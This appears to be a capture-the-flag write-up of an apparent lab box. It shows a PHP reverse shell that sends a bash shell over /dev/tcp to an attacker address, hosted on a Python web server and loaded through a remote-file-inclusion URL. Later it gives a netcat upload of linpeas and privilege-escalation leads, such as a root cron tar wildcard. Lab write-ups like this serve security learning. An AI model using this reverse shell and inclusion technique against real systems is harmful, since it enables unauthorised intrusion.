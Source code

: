 We get the password for the db. We could try to login to the db (Even tho its probably not accessible from outside) and get the username but don't think it's usefull.
We can get a reverse shell and get into the machine.

We create the revershe shell on our machine :
```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.235.153/4444 0>&1'");
```

Then launch an http server :
```
python -m SimpleHTTPServer
```

Than access `/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.235.153:8000/shell.php
`

And we got a shell :D


We get the user flag :
```
cat /home/milesdyson/user.txt                   
7ce5c2109a40f958099283600a9ae807
```

Then we just use netcat to send `linpeas.sh` to the machine in `/dev/shm` and we run it.

Some infos :
```
Linux version 4.8.0-58-generic
```

```
root /sbin/mdam
```

```
Samba running as root
```

Seems like we found something running in the cron :
```
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
```

We can rootlogin in ssh so we might be ale to bruteforce

`Screen` is a SGID. Might be able to exploit.

We can access mail server data at `/var/lib/squirrelmail/data`

We can't modify `/home/milesdyson/backups/backup.sh` since we are not logged in as milesdyson...

Seems like we can't login into `milesdyson`

`backup.sh` contains :
```
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
